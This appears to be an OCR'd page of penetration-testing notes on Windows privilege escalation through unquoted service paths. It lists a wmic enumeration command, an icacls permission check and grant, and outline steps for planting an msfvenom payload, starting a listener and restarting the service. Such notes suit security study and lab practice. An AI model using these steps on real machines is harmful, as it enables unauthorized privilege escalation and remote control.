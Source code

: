 # Example:

## Manual Enumeration: cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

### C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

#### If this is unquoted, cmd will search for programs to execute like:

### C:\MyPrograms\Disk.exe

### C:\MyPrograms\Disk Sorter.exe

#### 1: Check permissions on directories with icacls.

#### If BUILTIN/Users has (AI) and (WD), a user is allowed to create subdirectories and files respectively.

#### 2: msfvenom payload

#### 3: Rename payload to one of the arguments then grant it (F) permissions with icacls

#### icacls "c:\path\to\service.exe" /grant Everyone:F

#### 4: Setup listener

#### 5: Restart service
